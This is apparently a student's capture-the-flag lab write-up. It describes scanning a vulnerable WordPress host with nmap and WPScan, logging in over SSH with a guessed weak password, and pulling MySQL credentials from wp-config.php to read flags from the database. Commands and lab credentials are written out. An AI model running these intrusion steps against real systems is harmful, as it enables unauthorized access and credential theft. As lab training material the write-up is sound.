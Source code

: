 # Read Team: Summary of Operations

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

Output Screenshot:

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Nmap-Scan.png)

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**

1. Weak Password Requirements (CWE-521) 
2. User Enumeration
3. Unsalted User Password Hash (WordPress database)

### Explotation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Commands: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

**WPScan Results:**

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/WPscan.png)

- Targeting user Michael
    - Simply guessed Michael’s password, as it was very obvious
    - Password: michael (lulz)
- Capturing Flag 1: SSH'd into Michael's account and traversed through directories and folders
    - Flag 1 found in var/www/html folder in service.html 

        - Commands:
    
        - `$ ssh michael@192.168.1.110
        - `$ password: michael'
        - `$ cd /var/www/html'
        - `$ cat service.html'
        
![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag1.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.

        - Commands:
        
        - `ssh michael@192.168.1.110` 
        - `pw: michael`
        - `cd ../` 
        - `cd ../`
        - `cd var/www`
        - `ls'
        - `cat flag2.txt`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag2.png) 

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Obtained mysql login credentials from the wp-config.php file found in the var/www/html/wordpress directory
        - I was able to find Flags 3 and 4 using the steps below
        - Commands:

         - `mysql -u -p
         - `password: R@v3nSecurity' 
         - `show databases;`
         - `use wordpress;` 
         - `show tables;`
         - `select * from wp_posts;`

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag3.png)

![alt text](https://github.com/carlwarnberg/Project-3/blob/main/Images/Flag4.png)
